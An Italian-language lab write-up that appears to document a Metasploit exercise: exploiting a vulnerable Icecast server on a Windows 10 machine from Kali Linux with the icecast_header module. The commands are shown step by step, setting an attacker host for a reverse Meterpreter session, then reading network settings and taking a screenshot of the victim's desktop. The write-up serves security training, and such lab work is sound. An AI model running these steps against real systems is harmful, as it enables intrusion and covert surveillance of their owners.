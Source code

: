 1. Preparazione dell'Ambiente
Sistema Attaccante: Kali Linux con Metasploit Framework installato.
Sistema Target: Windows 10 con Icecast vulnerabile installato. Icecast è un software server di streaming audio noto per avere alcune versioni vulnerabili.
Rete Locale: La macchina Kali Linux e Windows 10 sono nella stessa rete o raggiungibili per la connessione.

2. Selezione dell'Exploit
Per sfruttare la vulnerabilità, è stato scelto l'exploit exploit/windows/http/icecast_header presente in Metasploit, noto per sfruttare una vulnerabilità nelle versioni di Icecast affette da problemi di gestione dell'header HTTP.

Comando eseguito per selezionare l'exploit:

Copia codice:

use exploit/windows/http/icecast_header

3. Configurazione dei Parametri
Una volta selezionato l'exploit, sono stati configurati i parametri necessari:

RHOSTS: Indirizzo IP della macchina target, il sistema Windows 10 con Icecast vulnerabile.
LHOST: Indirizzo IP del sistema attaccante (Kali Linux), necessario per ricevere la connessione inversa.
LPORT: Porta da utilizzare per la connessione inversa.
Comandi utilizzati per la configurazione:

set RHOSTS <IP_target>
set LHOST <IP_attaccante>

4. Lancio dell'Exploit
Una volta configurati i parametri, l'exploit è stato eseguito:exploit

L'exploit ha avuto successo, stabilendo una sessione Meterpreter con il sistema Windows 10 compromesso.

6. Operazioni su Meterpreter
Visualizzazione dell'indirizzo IP del Target
Per visualizzare l'indirizzo IP del sistema compromesso, è stato eseguito il comando:ipconfig

Questo ha restituito la configurazione di rete, permettendo di identificare l'IP della macchina target.

Cattura di uno Screenshot
Per ottenere uno screenshot del desktop della vittima, è stato utilizzato il comando:screenshot

L'immagine catturata è stata salvata nella directory di lavoro di Metasploit sul sistema attaccante. Questo ha fornito una rappresentazione visiva del desktop del sistema Windows 10 compromesso al momento dell'attacco.

6. Conclusione dell'Attacco
Dopo aver completato le operazioni richieste, la sessione Meterpreter è stata chiusa con:exit
